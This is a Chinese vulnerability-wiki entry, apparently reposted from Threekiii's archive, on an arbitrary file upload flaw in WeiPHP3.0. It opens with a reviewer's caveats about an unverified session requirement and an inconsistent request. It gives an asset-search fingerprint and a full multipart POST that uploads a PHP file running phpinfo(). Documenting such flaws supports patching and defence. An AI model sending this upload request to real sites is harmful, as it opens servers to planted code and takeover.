


## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：标题WeiPHP3.0，未给修复或认证状态；session_id可能必须有效

代码与实验材料：完整multipart上传phpinfo文件，但固定session_id和Length831，结果仅图

来源证据范围：Threekiii归档，无源码或公告

- **凭据与会话边界（1）**：认证前提与根因缺失；依据：路径带一个固定session_id，不能由此判断未授权上传；需解释会话获取、校验和扩展名逻辑。抓包中的会话不能视为未认证访问证明。需重新取得授权测试会话，不能复用文中值。

- **证据待核（2）**：标题session_id归因未证；依据：单请求只能说明上传接口，未给session_id控制与文件类型绕过的关系。保留原引用、截图位置和实验叙述；本项所缺材料未被补造，截图存在或作者宣称成功都不等于已核验其内容。

- **事实待核（3）**：请求模板不可直接复现；依据：Host空，Length与短body不符；缺完整返回path文字及版本标识。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# WeiPHP3.0 session_id 任意文件上传漏洞

## 漏洞描述

WeiPHP3.0 session_id 存在任意文件上传漏洞，攻击者通过漏洞可以上传任意文件

## 漏洞影响

```
WeiPHP3.0
```

## 网络测绘

```
app="weiphp"
```

## 漏洞复现

登陆页面标识


发送请求包上传文件

```php
POST /index.php?s=%2FHome%2FFile%2Fupload%2Fsession_id%2Fscevs8hub3m5ogla05a421hb42.html HTTP/1.1
Host: 
User-Agent: Go-http-client/1.1
Content-Length: 831
Content-Type: multipart/form-data; boundary=------------------------e37a54d7d5380c9f
Accept-Encoding: gzip

--------------------------e37a54d7d5380c9f
Content-Disposition: form-data; name="download"; filename="882176.php"
Content-Type: application/octet-stream

<?php
phpinfo();

--------------------------e37a54d7d5380c9f--
```



获取目录后访问回显的 path



---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
